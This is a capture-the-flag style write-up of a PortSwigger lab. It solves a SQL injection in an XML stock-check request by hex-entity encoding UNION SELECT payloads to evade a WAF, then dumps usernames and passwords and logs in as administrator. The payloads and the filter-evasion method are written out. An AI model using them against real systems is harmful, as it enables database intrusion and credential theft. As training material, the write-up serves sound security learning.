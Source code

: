 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5ba2c810-d187-415d-bc3d-5f7609d820d1)

## Solution :

Observe that the stock check feature sends the productId and storeId to the application in XML format.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/20e5dd68-acd4-406d-90a3-41e68d361476)


Send the POST /product/stock request to Burp Repeater.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/aa756ef4-d202-493f-bb99-a33f94ceea9a)

replacing the ID with mathematical expressions that evaluate to other potential IDs

```sql
<storeId>1 UNION SELECT NULL</storeId>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9e8870ee-dede-407d-9395-a92713444519)

Observe that your request has been blocked due to being flagged as a potential attack.so that we encode the query . One way to do this is using the Hackvertor extension. Just highlight your input, right-click, then select Extensions > Hackvertor > Encode > dec_entities/hex_entities.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2f545756-050e-4737-afc1-c717e0b74aec)

now the attack is not being detected.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/51f8e0c1-40c6-4e88-94f9-5b0b22ec14a1)

```sql
<storeId>1 UNION SELECT NULL NULL </storeId>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ce292faf-b773-4f9a-8a6b-d20ed3182b4f)

The application returns `0 units` This means two colums are there with one containing the username and passward.

As you can only return one column, you need to concatenate the returned usernames and passwords.

The query after encoding will be will be 

```sql
<storeId> <@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e75f5ad1-4e95-4602-8e01-de35c47f67c1)


The usernames and passwords of registered users.

`administrator~0mrweme56i1int0ujttq`

`carlos~yat7sjqe9pnxnwlycaw7`

`wiener~q1dnsto3yfy2bu59ht2q`

we will use `administrator~0mrweme56i1int0ujttq` this credentail to login.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5e3bb4ed-63df-461d-9eb3-79e1528f033f)

Lab solved .






